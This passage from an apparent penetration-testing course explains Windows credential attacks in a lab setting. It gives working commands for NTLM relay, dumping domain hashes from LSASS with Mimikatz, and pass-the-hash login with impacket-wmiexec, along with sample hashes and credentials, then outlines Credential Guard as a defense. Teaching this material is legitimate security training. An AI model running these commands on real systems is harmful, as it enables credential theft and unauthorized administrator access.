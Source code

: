 Now we `impacket-ntlmrelayx` will pass the hash to the second machine to authenticate us with the same hash. If the user is also the Administrator of the second machine, we will be logged as Administrator.

# # Windows Credential Guard

Up to this point we have dealt with hashes that belonged to local accounts. However, we may encounter other types of accounts, including Windows domain accounts. We'll discuss the inner workings of domain authentication in later modules, but for now we should demonstrate how the operating system stores the password hash of Windows users that log in with a domain account on a Windows device. If we're able to obtain this hash, we could either crack it or use it in a pass-the-hash attack.

Unlike local account hashes which are stored in the SAM, credential information such as domain hashes are stored in the memory of the **lsass.exe** process. Fortunately, **Mimikatz** can locate these stored credentials for us. Similar to our previous test-case using Mimikatz we will need to run it as Administrator (or higher) and have the **SeDebugPrivilege** access right enabled.

## Extracting Domain Hashes with Mimikatz

Start by logging into a Windows machine with domain credentials. For example, to RDP into a client machine:

```bash
xfreerdp /u:"CORP\\Administrator" /p:"QWERTY123\!@#" /v:192.168.50.246 /dynamic-resolution
```

Once connected, LSASS will have cached the domain user's information in memory. Then, using a local administrator account, launch **Mimikatz**:

```powershell
cd C:\tools\mimikatz\
.\mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Sample output:

```
* Username : Administrator
* Domain   : CORP
* NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
```

With this NTLM hash, we can attempt a **pass-the-hash attack**:

```bash
impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
```

## Credential Guard Mitigation

Microsoft introduced **Credential Guard** as part of **Virtualization-based Security (VBS)**, which uses hardware virtualization to isolate sensitive information. Credential Guard moves cached domain credentials into an isolated environment (VTL1) managed by the hypervisor. Even SYSTEM-level processes cannot access this protected memory.
